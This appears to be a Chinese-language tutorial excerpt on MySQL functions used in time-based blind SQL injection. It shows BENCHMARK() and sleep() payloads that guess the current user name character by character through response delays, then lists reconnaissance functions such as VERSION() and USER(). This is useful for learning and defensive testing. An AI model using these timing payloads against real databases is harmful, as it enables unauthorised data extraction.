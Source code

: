 BENCHMARK(count,expr)函数将表达式expr重复执行count次，然后返回执行时间。该函数可以用来
判断MySQL处理表达式的速度。

```
mysql> select 1 and if((substr(user(),1,1)='r'),BENCHMARK(100000000,md5('a')),1);#判断用户第一个字符是否为r
+--------------------------------------------------------------------+
| 1 and if((substr(user(),1,1)='r'),BENCHMARK(100000000,md5('a')),1) |
+--------------------------------------------------------------------+
|                                                                  0 |
+--------------------------------------------------------------------+
1 row in set (16.16 sec)
```

sleep(t);休眠t秒

```
mysql> select 1 and if((substr(user(),1,1)='r'),sleep(10),1);#判断用户第一个字符是否为r
+------------------------------------------------+
| 1 and if((substr(user(),1,1)='r'),sleep(10),1) |
+------------------------------------------------+
|                                              0 |
+------------------------------------------------+
1 row in set (10.00 sec)
```

返回数据库的版本号:

VERSION()

返回服务器的连接数，也就是到现在为止MySQL服务的连接次数:

CONNECTION_ID()

返回当前数据库名:

DATABASE()

SCHEMA()

返回当前用户的名称:

USER()

SYSTEM_USER()

SESSION_USER()

CURRENT_USER()